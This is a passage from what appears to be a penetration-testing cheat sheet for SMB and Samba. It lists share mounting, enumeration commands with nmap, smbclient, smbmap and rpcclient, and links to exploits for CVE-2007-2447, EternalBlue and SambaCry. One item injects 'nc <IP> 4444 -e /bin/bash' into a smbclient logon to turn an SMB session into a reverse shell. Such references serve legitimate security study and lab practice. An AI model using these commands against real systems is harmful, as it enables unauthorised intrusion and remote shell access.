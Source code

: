 ```

18. mount -t cifs "//<IP>/share/" /mnt/wins

19. mount -t cifs "//<IP>/share/" /mnt/wins -o vers=1.0,user=root,uid=0,gid=0

20. SMB Shell to Reverse Shell : 

    smbclient -U "username%password" //<IP>/sharename
    smb> logon “/=nc <IP> 4444 -e /bin/bash" 
    
Checklist :
    * Samba symlink directory traversal attack
```
* **Fingerprint SMB Version**
```
smbclient -L //<IP>
```
* **Find open SMB Shares**
```
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24 
```
* **Enumerate SMB Users**

```
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254 
```
* **List shares**

```
smbmap -H [ip/hostname]
echo exit | smbclient -L \\\\[ip]
nmap --script smb-enum-shares -p 139,445 <IP>
```
* **Check for null sessions**

```
smbmap -H [ip/hostname]
rpcclient -U "" -N <IP>
smbclient \\\\[ip]\\[share name]
```
* **SMB Exploits :**
1. Samba "username map script" Command Execution - CVE-2007-2447
    * Version 3.0.20 through 3.0.25rc3
    * Samba-usermap-exploit.py - https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851
2. Eternal Blue - CVE-2017-0144
    * SMB v1 in Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016
https://github.com/adithyan-ak/MS17-010-Manual-Exploit
3. SambaCry - CVE-2017-7494
    * 4.5.9 version and before
    * https://github.com/opsxcq/exploit-CVE-2017-7494
* **OTHER TOOLS**
